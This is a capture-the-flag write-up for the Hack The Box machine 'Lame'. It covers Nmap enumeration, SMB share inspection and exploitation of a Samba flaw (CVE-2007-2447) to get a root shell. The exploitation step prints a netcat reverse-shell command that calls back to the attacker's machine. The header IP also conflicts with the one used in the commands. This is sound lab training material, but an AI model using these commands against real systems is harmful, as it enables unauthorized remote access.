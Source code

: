# HTB - Lame

#### Ip: 10.10.10.171
#### Name: Lame
#### Rating: Easy

----------------------------------------------------------------------

![Lame.png](../assets/lame_assets/Lame.png)

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Lame]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV  10.10.10.3  
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-08 09:48 CDT
Nmap scan report for 10.10.10.3
Host is up (0.061s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.31
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 600fcfe1c05f6a74d69024fac4d56ccd (DSA)
|_  2048 5656240f211ddea72bae61b1243de8f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h56m11s, deviation: 2h49m43s, median: -3m49s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2024-06-08T10:44:55-04:00
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.37 seconds
```

Ok, looks just like FTP, SSH and SMB are open on the target for TCP.

FTP has anonymous login enabled, but there was nothing in there.

Moving over to SMB we can see we have read/write access to the `/tmp` share:

![lame_smb_shares.png](../assets/lame_assets/lame_smb_shares.png)

Logging into the share with smbclient we find a pretty generic `/tmp` folder:

```
┌──(ryan㉿kali)-[~/HTB/Lame]
└─$ smbclient -U '' \\\\10.10.10.3\\tmp              
Password for [WORKGROUP\]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jun  8 10:12:56 2024
  ..                                 DR        0  Sat Oct 31 01:33:58 2020
  orbit-makis                        DR        0  Sat Jun  8 05:25:32 2024
  .ICE-unix                          DH        0  Sat Jun  8 02:58:13 2024
  vmware-root                        DR        0  Sat Jun  8 02:58:17 2024
  .X11-unix                          DH        0  Sat Jun  8 02:58:37 2024
  gconfd-makis                       DR        0  Sat Jun  8 05:25:32 2024
  5584.jsvc_up                        R        0  Sat Jun  8 02:59:14 2024
  .X0-lock                           HR       11  Sat Jun  8 02:58:37 2024
  vgauthsvclog.txt.0                  R     1600  Sat Jun  8 02:58:11 2024
```

Not much of interest here. Going back to our Nmap results I note the SMB version and look for exploits and notice there is a Metasploit module available for this https://www.exploit-db.com/exploits/16320.

Digging a bit deeper I find this repo, with a Python version of the exploit. https://github.com/Ziemni/CVE-2007-2447-in-Python

Lets give it a shot.

### Exploitation

We can fire off the exploit with no changes needed to the code with:

```
┌──(ryan㉿kali)-[~/HTB/Lame]
└─$ python smbExploit.py 10.10.10.3 139 'nc -e /bin/sh 10.10.14.31 4444'
```

And we catch a shell back in our listener as root:

![lame_shell.png](../assets/lame_assets/lame_shell.png)

Nice, we can now grab both the user.txt flag and the root.txt flag:

![lame_user.png](../assets/lame_assets/lame_user.png)

![lame_root.png](../assets/lame_assets/lame_root.png)

Thanks for following along!

-Ryan

---------------------------------------------------


